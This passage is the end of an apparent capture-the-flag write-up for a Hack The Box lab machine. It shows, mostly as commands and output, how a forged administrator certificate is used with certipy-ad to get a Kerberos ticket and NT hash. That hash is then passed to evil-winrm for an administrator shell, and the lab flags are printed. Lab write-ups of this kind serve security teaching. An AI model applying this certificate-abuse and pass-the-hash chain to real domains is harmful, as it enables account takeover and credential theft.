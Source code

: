 ![Pasted image 20240721201954](https://github.com/user-attachments/assets/5994c7cf-f68f-43bb-9ff6-0643c0075f6b)

Now we have certificate, Lets Sync our machine time with Target machine using. 

```bash
$ sudo ntpdate 10.129.35.171 
```

After syncing time, lets ask for TGT and NTLM hash of Admin user using automated method;

```bash
$ certipy-ad auth -pfx administrator_authority.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@authority.htb': aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed
```

## Shell as Administrator

```powershell 
$ evil-winrm -i 10.129.35.171 -u administrator -H '6961f422924da90a6928197429eea4ed'

Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
a3edc451c38182d4d5e617081407e03d
```


# Flags

User : 2068cae1ded4b.....056e924c59295e8
Root : a3edc451c381.......4d5e617081407e03d
